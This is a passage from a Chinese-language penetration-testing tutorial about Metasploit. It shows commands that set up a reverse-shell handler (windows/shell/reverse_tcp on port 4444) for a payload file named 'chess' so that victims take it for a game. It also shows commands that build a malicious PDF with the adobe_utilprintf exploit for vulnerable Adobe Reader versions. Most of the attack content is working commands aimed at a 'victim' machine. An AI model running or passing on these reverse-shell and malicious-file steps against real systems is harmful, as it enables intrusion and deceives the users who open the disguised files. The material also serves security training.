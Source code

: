 我们已经为下一步做好了准备，那就是把文件放到受害者机器上，这样他们就可以执行它了。这就是我们选择`chess`名称的原因；看来我们有一个游戏让他们玩。在将文件传输到机器之前，我们必须设置 metasploit 工具以接收连接。在 metasploit 窗口中，输入以下内容：

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 192.168.177.170
set LPORT 4444
exploit

```

以下屏幕截图显示了该结果的示例：

![Binary payloads](img/477-1_12_45.jpg)

我们现在准备让受害者连接。正如我们在本章中所做的那样，我们将文件复制到受害者机器，然后执行它。由于我们已经多次解释了这一点，我们将进入下一个项目。

# 恶意 PDF 文件

另一种流行的攻击手段是使用普通文件来承载我们的攻击代码，这就是我们对恶意 PDF 文件所做的。我们将在 PDF 文件中创建有效负载；当受害者使用易受攻击的 Adobe Reader 版本运行它时，我们可以访问该机器。这一载体已被多次用于危害许多公司。在 metasploit 中，我们可以使用许多工具来创建 PDF 文件。在 metasploit 中输入以下命令：

```
use exploit/windows/fileformat/adobe_utilprintf
set FILENAME pay.pdf
set LHOST <Kali>
set LPORT 5555
show options
exploit

```

以下屏幕截图显示了此命令的输出示例：

![Malicious PDF files](img/477-1_12_46.jpg)
